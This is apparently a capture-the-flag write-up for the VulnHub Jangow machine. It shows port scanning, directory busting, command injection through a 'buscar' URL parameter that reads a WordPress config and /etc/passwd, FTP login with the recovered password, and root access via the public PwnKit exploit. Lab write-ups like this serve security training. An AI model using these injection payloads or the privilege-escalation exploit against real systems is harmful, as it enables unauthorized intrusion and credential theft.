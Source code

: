 # Jangow Machine
Machine Link: https://www.vulnhub.com/entry/jangow-101,754/

Starting with nmap scan

```
sudo nmap -T4 -p- -A 192.168.0.105
```

![nmap_scan](https://github.com/moataz-bellah/writeups/assets/47069499/779ba276-9017-476f-a4ae-87d74e3f682b)

We have 2 ports open ftp, http. I started with ftp and tried to login as anonymous, but i failed. Moving to http service and make some directory busting.

```
dirb http://192.168.0.105
```

I found one directory "site", let's go see it

![site](https://github.com/moataz-bellah/writeups/assets/47069499/27403bf4-ce2f-48b0-8a6c-9c6c820a7fa6)

It doesn't have too much, but there is "buscar" page that seems to be vulnerable to command injection. I tried to inject OS command like "ls".

```
http://192.168.0.105/site/busque.php?buscar=ls
```

![OS_Injectioni](https://github.com/moataz-bellah/writeups/assets/47069499/c5cd6035-67a6-451b-b5ed-f3c3b58133c7)

Great, we have remote code execution, we need to leverage that and get reverse shell. I tried many shells, but i realized this machine has a problem i can't figure out. I looked for more interesting
files and found wordpress/config.php

```
http://192.168.0.105/site/busque.php?buscar=cat wordpress/config.php
```

![config](https://github.com/moataz-bellah/writeups/assets/47069499/1c94e351-1e1f-4fc1-af2f-53867cd0e85e)

We have mysql credentials. I tried use it with ftp, but it didn't work. At least, we have a password. Let's try it with another user. Let's check /etc/passwd to see if there are any users

```
http://192.168.0.105/site/busque.php?buscar=cat+/etc/passwd
```

![passwd](https://github.com/moataz-bellah/writeups/assets/47069499/8d1f975d-3949-4a26-a3b4-07ec1f348d89)


I found "jangow01". Let's go login to ftp with username: "jangow01" password: "abygurl69". Great it worked. I tried to upload a php shell,but it is now allowed to upload any files in /var/www.
I had to login inside virtual box and it worked.

# Privilege Escalation

Surfing the internet, i found that link https://github.com/ly4k/PwnKit/blob/main/PwnKit.c. The machine's kernal has vulnerability can lead to privilege escalation. Using that link, i downloaded the exploit.
compile it

```
gcc -shared PwnKit.c -o PwnKit -Wl,-e,entry -fPIC
```
We can upload it using ftp.

```
cd /home/jangow01
put Pwnkit
```

On the machine we have to make the file executable

```
chmod +x PwnKit
```

```
./PwnKit
```

![root](https://github.com/moataz-bellah/writeups/assets/47069499/455be079-8ee2-4410-92ce-910dad611cbe)

Great we root now














